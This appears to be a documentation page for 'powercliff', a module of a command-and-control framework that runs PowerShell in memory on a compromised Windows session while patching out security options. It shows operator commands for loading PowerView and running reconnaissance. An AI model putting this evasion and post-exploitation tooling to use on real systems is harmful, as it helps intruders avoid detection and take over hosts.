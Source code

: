 ```yaml
---

title: powercliff
descripton: orsted c2 powercliff
---
```


### General

`powercliff` allows you to run powershell in-memory with some disabled security options by indirect syscall patching.

```
[Session 11: haroun@DESKTOP-DU89UIV] » powercliff --help

Powercliff, inline powershell with superdeye managed patched

Usage:
  powercliff [flags]

Flags:
  -h, --help     display help

Sub Commands:
  exec              Exec a powershell cmd
  load              Load ps1 script to powershell
  start-powercliff  Load CLR, instantiate powershell and patch some stuff
```

It requires you to load the `powercliff` dll with `load-module powercliff`


### start-powercliff

`start-powercliff` will load the CLR, start a powershell via `System.Management.Automation.dll` and patch some security options.

```powershell
[Session 11: haroun@DESKTOP-DU89UIV] » powercliff start-powercliff
```

### load

You can load a ps1 script from `orsted-server` 

```powershell
[Session 11: haroun@DESKTOP-DU89UIV] » powercliff load PowerView.ps1
```

The Path to look for ps1 is defined in `./data/clientconf.toml`

```toml
...
Ps1ScriptPath = "./tools/windows/ps1/"
...
```

### exec

You can execute powershell command

```powershell
[Session 11: haroun@DESKTOP-DU89UIV] » powercliff exec whoami /all
```

